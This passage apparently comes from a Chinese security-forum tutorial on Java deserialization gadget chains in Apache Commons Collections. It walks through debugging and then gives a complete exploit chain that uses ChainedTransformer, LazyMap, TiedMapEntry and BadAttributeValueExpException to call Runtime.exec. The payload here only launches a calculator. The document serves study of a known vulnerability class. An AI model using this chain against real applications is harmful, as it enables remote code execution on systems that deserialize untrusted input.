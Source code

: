 ![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a7abb743b8118207dbfe37c882c6ca38a7086c03.png)​

那么也是拼接到`LazyMap#get()`​就好了

由于这里组长并没有给出EXP，在自己有一定的理解情况下补充一下

‍

一开始我打算直接加入这一行代码就可以完成逻辑了

```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(tiedMapEntry);
```

但是发现并没有成功，所以继续断点看看

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-7a352e6e29777219eba1993814000de5834d54cd.png)​

发现这个`valObj`​是String型的，所以得要用反射去把这个值修改为`TiedMapEntry#ToString`​即可

‍

最后修改为

```java
     Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "qq");
        lazyMap.remove("qq");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class b = badAttributeValueExpException.getClass();
        Field bfield =  b.getDeclaredField("val");
        bfield.setAccessible(true);
        bfield.set(badAttributeValueExpException,tiedMapEntry);

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
```

‍

总结
==

其实CC的精髓，就是去找谁的`readObject`​可以传任意调用对象，并且可以走到 `transform`​里头来进行动态类加载或者任意方法调用

最后附上CC的结构图 我个人觉得还是画得比较清晰的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-1a6694b9cf6a1c3b03c977097fc49acecb35e959.png)​